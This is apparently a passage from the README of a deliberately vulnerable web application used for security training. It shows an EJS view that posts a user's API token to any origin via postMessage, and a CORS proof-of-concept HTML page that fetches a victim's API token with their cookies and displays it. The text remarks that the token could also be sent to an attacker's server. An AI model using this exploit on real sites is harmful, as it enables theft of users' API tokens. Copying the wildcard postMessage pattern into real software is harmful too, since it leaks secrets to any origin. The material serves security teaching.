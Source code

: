 ### Vulnerable code:

**View: /views/webmessage-api-token-popup.ejs**

```html
<script>
    var token = "<%-apiToken%>";
    window.opener.postMessage({'token': token}, '*')
    window.close()
</script>
```

## 13. CORS Information Disclosure

`cors-api-token` endpoint is vulnerable to Cross-Origin Resource Sharing your goal is to exploit it to steal victim user API Token.

### Exploit:

1. Save the following HTML code in an HTML file.

```
<html>
<body>
<center>CORS Exploiting POC</center>
<script>
document.addEventListener('readystatechange', ()=>{
  fetch('http://tauheedkhan.com:9000/cors-api-token', {credentials: 'include'})
    .then((response)=>{
      return response.text()
    })
    .then((html)=>{
      var parser = new DOMParser();
      var doc = parser.parseFromString(html, "text/html")
      var apiToken = doc.getElementById("apiToken").value;
      alert(apiToken);
    })
    .catch((err)=>{
      console.log(`Error: ${err}`)
    })
  })
</script>
</body>
</html>
```

2. Open the link in your victim browser and you will see a popup with a user API token you can also transfer this API token to your attacker server.
   
### Vulnerable Code

**Request endpoint & method**

```
Endpoint: /cors-api-token
Method: GET
```
